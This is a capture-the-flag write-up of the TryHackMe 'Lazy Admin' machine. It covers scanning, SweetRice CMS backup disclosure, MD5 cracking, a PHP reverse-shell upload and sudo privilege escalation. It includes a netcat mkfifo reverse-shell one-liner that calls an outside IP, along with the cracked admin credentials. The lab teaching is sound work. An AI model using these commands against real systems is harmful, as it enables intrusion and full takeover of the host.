 ```yaml
---
title: Lazy Admin
date: 2022-05-27 17:00:00 +500
categories: [THM, easy machines]
tags: []    # TAG names should always be lowercase
---
```


10.10.74.238

### What is the user flag?

Let's run a quick Nmap scan
```terminal
nmap -p- -sS --min-rate 10000 --open -vvv -n -Pn 10.10.74.238
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 60
80/tcp open  http    syn-ack ttl 60
```

going to the page is the default Apache webpage, nothing much to see, so let's run a gobuster scan to see if we find any hidden directory.

Im going to use the '-x' flag which adds the extension to the words in the wordlist, but doesn't replace the original words without the extension, so naturally it makes the scan slower since it got more words to try, I usually get lucky with only php but if not, you can try with .txt, .pdf, etc. or even .html .htm since some wordlists don't have these extensions by default.

```terminal
gobuster dir -u http://10.10.74.238/ -w /usr/share/dirb/wordlists/common.txt -x .php
```

```
/.hta                 (Status: 403) [Size: 277]
/.hta.php             (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd.php        (Status: 403) [Size: 277]
/.htaccess.php        (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/content              (Status: 301) [Size: 314] [--> http://10.10.74.238/content/]
/index.html           (Status: 200) [Size: 11321]
/server-status        (Status: 403) [Size: 277]
```

we found a directory '/content', heading over the page we see that is a page after the installation of SweetRice which looks like a CMS like WordPress.

I'll do another gobuster scan in the background while I search for exploits for this software.

with searchsploit we can search exploits from the terminal, exploits that we have on our computer.
```terminal
searchsploit sweetrice
```

and there are a few
```
SweetRice 0.5.3 - Remote File Inclusion                         | php/webapps/10246.txt
SweetRice 0.6.7 - Multiple Vulnerabilities                      | php/webapps/15413.txt
SweetRice 1.5.1 - Arbitrary File Download                       | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload                         | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure                             | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery                    | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Executi | php/webapps/40700.html
SweetRice < 0.6.4 - 'FCKeditor' Arbitrary File Upload           | php/webapps/14184.txt
```

but we don't know what version is it, so we'd be just trying and see if we're lucky. Im going to try enum the webpage if I found something.

going through the source code, it looks like I found a version, in /content/js/SweetRice.js there is this comment at the start of the code:
```
/**
 * SweetRice javascript function.
 *
 * @package SweetRice
 * @Dashboard core
 * @since 0.5.4
 */
<!--
```

if I'm not mistaken and that's the version, it's a pretty old one.
the gobuster scan also finished

```
/as                   (Status: 301) [Size: 317] [--> http://10.10.74.238/content/as/]
/attachment           (Status: 301) [Size: 325] [--> http://10.10.74.238/content/attachment/]
/images               (Status: 301) [Size: 321] [--> http://10.10.74.238/content/images/]
/inc                  (Status: 301) [Size: 318] [--> http://10.10.74.238/content/inc/]
/index.php            (Status: 200) [Size: 2198]
/index.php            (Status: 200) [Size: 2198]
/js                   (Status: 301) [Size: 317] [--> http://10.10.74.238/content/js/]
```

*as is a login page

we have the folder attachment that may be the folder where files are uploaded, and we have the "SweetRice < 0.6.4 - 'FCKeditor' Arbitrary File Upload " exploit so I think that's our chance.

after taking a more close look, this doesn't work for us because it uses a plugin 'FCKeditor' which it's not installed here, we can check it by going to 'http://10.10.74.238/content/_plugin/'.

then I tried the two exploits above, which didn't work for me also, then I tried the 'Backup Disclosure' which says that there is a directory with a MySQL backup, I downloaded looking for credentials or something, and I think I found a user and a password:

'''
\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\
'''

looks like manager is the admin and his password is that hash, so I use hash-identifier to see what kind of hash is, it looks like is MD5, now with this let's use hashcat to crack it up.

with the normal mode, it did not cracked it, so I'll use the rockyou wordlists.

* -m 0 is the mode for MD5 raw
* -a 0 is to use a wordlist

```terminal
hashcat -m 0 -a 0 42f749ade7f9e195bf475f37a44cafcb /usr/share/wordlists/rockyou.txt
```

and it does crack it to 'Password123', now with these credentials we can access the login page under /content/as. 

my initial thought in the admin panel was to upload a revershell, to somewhere or execute it somehow. I first started creating a post and putting the raw code from a php reverse shell and then executing it, but it didn't work (also you have to mark the website status as running to see the posts you create), then I tried to upload the shell to the section that said upload files a bit skeptical because I thought of this only going to display the file to download it, but it actually runs it when you click it, so I got a shell!

the PHP shell: https://raw.githubusercontent.com/jivoi/pentest/master/shell/rshell.php
(change the IP to yours and the port you'd like)
(remember to have a listener with the reverse shell file port when executing the shell)

under the itguy's home directory is our first flag

> 

### What is the root flag?

Let's do some enumeration on the machine, we have mysql_login.txt with some credentials

```
rice:randompass
```

we have permission to execute a file in itguy's home directory

```
(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

backup.pl
```
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

let's see what's copy.sh
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.26.231 5554 >/tmp/f
```

it's a bash reverse shell, let's check if we have permission to write on it

```terminal
ls -la /etc/copy.sh
```

and we have '-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh'
in the third group of permissions 'rwx' all other users can write on it.

so let's change the IP for ours, but nano isn't working, so i'll do it with echo

```terminal
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.26.231 5554 >/tmp/f" > /etc/copy.sh
```

and now we execute it with sudo, so we'll have a root shell (remember to have the listener ready with the correct port, this case 5554)

in your local machine:
```terminal
nc -lvnp 5554
```

in the victim's machine:
```terminal
sudo /usr/bin/perl /home/itguy/backup.pl
```

And we got ourselves a root shell! now just go and cat the flag under /root

> 
